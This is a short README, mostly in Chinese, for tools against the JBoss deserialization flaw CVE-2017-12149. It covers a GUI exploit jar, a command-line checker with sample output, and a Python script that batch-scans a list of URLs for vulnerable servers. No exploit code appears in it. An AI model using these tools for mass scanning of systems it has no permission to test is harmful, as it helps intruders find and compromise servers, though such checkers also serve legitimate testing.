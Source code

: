 # 
1.jboss反序列化_CVE-2017-12149.jar GUI
jboss-_CVE-2017-12149

#referer:https://github.com/yunxu1/jboss-_CVE-2017-12149

2.漏洞验证
verify_CVE-2017-12149.jar提供命令行模式下验证漏洞,如果漏洞存在返回特征字符串,只需要执行命令:

```shell/cmd
$ java -jar verify_CVE-2017-12149.jar http://xxx:8080

#成功返回:
vuln6581362514513155613jboss
```
#referer:https://github.com/yunxu1/jboss-_CVE-2017-12149

3.批量验证漏洞(支持http/https协议)
python Jboss-cve201712149-pl.py urllist.txt
urllist.txt-format:
http://1.1.1.1:8080

#成功返回:
http://192.168.1.10:8080/invoker/readonly maybe use HttpInvoker! 
http://192.168.1.10:8080 is  Vul-Jboss-cve-2017-12149! 
ps：py运行需要安装requests 库
pip install requests